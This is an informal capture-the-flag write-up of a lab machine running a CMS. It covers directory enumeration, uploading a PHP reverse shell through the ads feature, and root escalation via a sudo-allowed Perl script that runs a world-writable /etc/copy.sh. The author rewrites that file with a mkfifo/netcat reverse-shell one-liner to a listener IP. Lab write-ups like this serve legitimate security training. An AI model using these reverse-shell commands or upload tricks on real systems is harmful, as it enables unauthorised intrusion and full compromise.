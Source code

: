 ### Nmap
only one http port is open

### HTTP

found /content

and upon recursive scanning 

s                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 149ms]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 151ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 147ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 150ms]

### Shell

Obviously took help of the writeup here

Now after i logged in i knew there is a remote code execution vuln as per searchsploit


we can see that in the ads section we can write anythin so 

http://10.10.129.182/content/as/?type=ad

here i created an ad called hacked 

with ads code a php reverse shell(a.php)(copied and pasted the code)


after we submit it we can see that iwas has been uploaded


now we knew there was a path inc which listed all the contents of ads


http://10.10.129.182/content/inc/ads/

now i went there and i could see a hacked.php file with our reverse shell code in it.


so i started a netcat listener and clicked on hacked.php


and viola i got a shell


### Priv ESc

now after i get the system shell


i can see that i can run only one command using sudo

ww-data@THM-Chal:/etc$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

The content of the file is


www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");



And in the etc path we can see that we have writable permission for this file


www-data@THM-Chal:/etc$ ls -al | grep copy
ls -al | grep copy
-rw-r--rwx   1 root root      80 Feb  5 16:25 copy.sh




i chnaged the content of the file to spwan a root reverse sheel to my locak system, the content i changed to is


www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.174 9999 >/tmp/f


and viola i got a root shell after i started a netcat listener on port 9999



